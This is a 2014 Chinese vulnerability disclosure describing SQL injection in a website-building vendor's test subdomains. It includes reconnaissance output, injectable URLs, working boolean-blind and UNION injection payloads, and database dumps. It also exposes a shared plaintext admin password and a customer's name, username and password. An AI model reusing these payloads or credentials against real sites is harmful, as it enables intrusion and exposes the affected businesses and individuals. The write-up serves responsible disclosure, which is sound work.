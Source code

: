 # 某建站厂商SQL注入影响数万企业

Feei <feei#feei.cn> 09/2014

## 1. 信息收集

```
[+] Emails found:
------------------
david@***world.com
admin@***world.com
divid@***world.com

[+] Hosts found in search engines:
------------------------------------
122.227.***.250:server.***world.com
61.130.***.52:www.***world.com
114.80.***.133:testweb5.***world.com
61.130.***.53:wiki.make.***world.com
114.80.***.29:testweb7.***world.com
114.80.***.191:testweb6.***world.com
61.130.***.55:shop.testweb.***world.com
61.130.***.53:cn.***world.com
61.130.***.55:testweb.***world.com
60.191.***.236:admin.***world.com
61.130.***.54:make1.***world.com
61.130.***.53:make.***world.com
60.191.***.236:is-service.***world.com
61.130.***.53:service.***world.com
60.191.***.236:is-testweb7.***world.com
61.130.***.52:file.***world.com
60.191.***.236:hk.***world.com
60.191.***.236:253Dcn.***world.com
```

提取有用信息
`testwebN.***world.com`

- 上面这种域名是用来测试访问网站的(比如客户住域没有备案或者还没购买,先通过这个域名的二级目录来访问)
- 有N个这类二级域名
- 每个这类二级域名下存在数千客户网站

于是查找注入点

## 2. 漏洞证明

简单的找了下每个二级域下的SQL注入点:

```
testweb 61.130.97.55
http://testweb.***world.com/yining/admin/login.php

testweb2 61.130.97.52 主站
http://testweb2.***world.com/suotie/admin/login.php

testweb3 114.80.68.131
http://testweb3.***world.com/wangxiang/cn/products.php?tid=18&id=1

testweb4
testweb4.***world.com/lnr/cn/faqed.php?id=11&gid=1

...
```

`http://testweb7.***world.com/dongfang/cn/products.php?act=list&id=7`

**通过注入点拿到数据库权限**
```
Place: GET  
Parameter: TypeLevel  
Type: boolean-based blind  
Title: AND boolean-based blind - WHERE or HAVING clause  
Payload: id=19&TypeLevel=1 AND 8971=8971&pid=19  
Type: UNION query

Title: MySQL UNION query (NULL) - 11 columns

Payload: id=19&TypeLevel=1 UNION ALL SELECT NULL,CONCAT(0x7170746271,0x4d597259547178556155,0x7171707a71),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL#&pid=19  
```

**`testweb`数据库**
```
web application technology: PHP 5.2.13, Apache 2.2.15
back-end DBMS: MySQL >= 5.0.0
[*] 'yining'@'localhost'
available databases [4]:
[*] information_schema
[*] maindb
[*] test
[*] ...

Database: maindb
[10 tables]
+---------------------------------------+
| t_admin |
| t_bak |
| t_dict |
| t_feedback |
| t_language |
| t_log |
| t_model |
| t_plugin |
| t_progress |
| t_timeline |
| ... |
+———————————————————+
```

**`testweb2`的`maindb`库**
```bash
Database: maindb 
[12 tables]
+------------+
| books |
| company |
| t_admin |
| t_bak |
| t_dict |
| t_feedback |
| t_language |
| t_log |
| t_model |
| t_plugin |
| t_progress |
| t_timeline |
| ... |
+——————+
```

**`testweb3`的`maindb`库**
```
Database: maindb
[6 tables]
+------------+
| books |
| company |
| t_admin |
| t_bak |
| t_dict |
| t_feedback |
| ... |
+------------+
```

通过分析得出以下结论:

- 每个客户网站只有自己数据库权限和一个名为mainbd库的权限
- 通过分析maindb表结构发现里面竟然存了该二级域名下的所有网站相关信息(管理员帐号密码/反馈/备份/日志/插件等)
- 每个二级域的maindb库里面的的客户信息表都是t_admin,并且密码没有加密
- 每个二级域的maindb库管理员表里面都有一个admin ps99379937的管理员帐户,按理说如果是存放客户的密码,为什么会都有这个帐号呢,于是继续深入下去发现了每个二级域都有一个总的管理后台(e.g `testweb2.***world.com/admin`)

## 3. 漏洞影响

![](images/v_paisang_01.png)
![](images/v_paisang_02.png)
![](images/v_paisang_03.png)

使用`admin`/`ps99379937`可以登陆所有后台,如下

- `testweb.***world.com/admin` (主要是11年建设的网站,共1940个客户)
- `testweb2.***world.com/admin` (主要是11年建设的网站,共1689个客户)
- `testweb3.***world.com/admin` (主要是11年建设的网站,共1100个客户)
- `testweb4.***world.com/admin` (主要是12年建设的网站,共1143个客户)
- `testweb5.***world.com/admin` (主要是11年建设的网站,共1689个客户)
- `testweb6.***world.com/admin` (主要是13年建设的网站,共1273个客户)
- `testweb7.***world.com/admin` (主要是13年建设的网站,共1093个客户)
- `testweb8.***world.com/admin` (主要是14年建设的网站,共483个客户)
- `testweb9.***world.com/admin` (主要是14年的)
- `testweb10.***world.com/admin` (主要是14年的)
- `testweb11.***world.com/admin` (主要是14年的)

上面截图是其中一个二级域名的管理后台，可以看到很多敏感信息
所有客户网站后台均可以登陆
从`testweb的maindb.t_admin`随便挑选一个用户

```
2644,102,宁波,朱宁斌,,lixiang,4,0,0,5000,李勇,100,lixiang,陈海啸,3lxanc85,,1,2,0,D0:D1:D2:D3:F0:F1:F2:F3:F4:F5:F6:F7:F8:F9:F10:E0:E1:E2:E3:E4:E5:E6:E7:E8:E9:E10:G0:G1:G2:G3:G4:G13:G5:G6:G7:G8:I0:I1:I2:I3:O1:O2,2009-04-30 16:24:58,http://china***.com,2010-02-12 00:00:00,100,宁波**信息工程有限公司,cn/index.php,2009-02-12 00:00:00,,宁波**信息工程有限公司
```

宁波**信息工程有限公司(http://www.china***.com/)
登陆地址:http://www.china***.com/admin/
帐号:lixiang 密码3lxanc**

粗略测试了下,客户案例里面大部分都能登陆并获取到网站后台权限和数据库权限甚至源码。
点到为止,不继续挖了。

漏洞已提交补天并已通知厂商修复完毕。

